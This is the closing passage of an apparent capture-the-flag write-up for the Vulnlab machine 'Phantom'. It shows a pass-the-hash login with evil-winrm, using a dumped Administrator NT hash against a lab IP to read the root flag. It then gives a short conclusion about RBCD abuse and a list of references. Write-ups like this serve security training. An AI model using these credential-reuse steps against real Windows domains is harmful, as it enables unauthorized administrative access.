 Note that the local SAM hash for the Administrator account will not work if you try to PTH. The extracted Administrator hash from the domain credential dump should have the hash you are looking for.

As seen from the above, we were able to pull the Administrator NT hash and can now use it to authenticate to the machine through WinRM.

```
└─$ evil-winrm --ip 10.10.103.169 -u 'Administrator' -H '[...snip...]'
Evil-WinRM shell v3.5  
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cat ..\Desktop\root.txt
VL[...snip...]
```

Now that we were able to read the root flag, this means that we have successfully compromised this machine!

# Conclusion

This machine was relatively difficult when it came to problem-solving, as you needed to have a grasp of how password creation was conceived in general by regular users in the real-world. Though this may not be a situation you'll see a lot, it is always something that is good to test for. The AD portion was also really interesting, as prior to this machine I did not know you could exploit RBCD when a user does not have control over a domain computer.

Big props to ar0x4, this machine was great.

# Resources

https://github.com/dirkjanm/BloodHound.py
https://veracrypt.eu/en/Downloads.html
https://wiki.vulnlab.com/guidance/medium/phantom
https://www.thehacker.recipes/ad/movement/kerberos/delegations/rbcd
https://www.tiraniddo.dev/2022/05/exploiting-rbcd-using-normal-user.html
https://x.com/tiraniddo
https://github.com/fortra/impacket/blob/master/examples/describeTicket.py

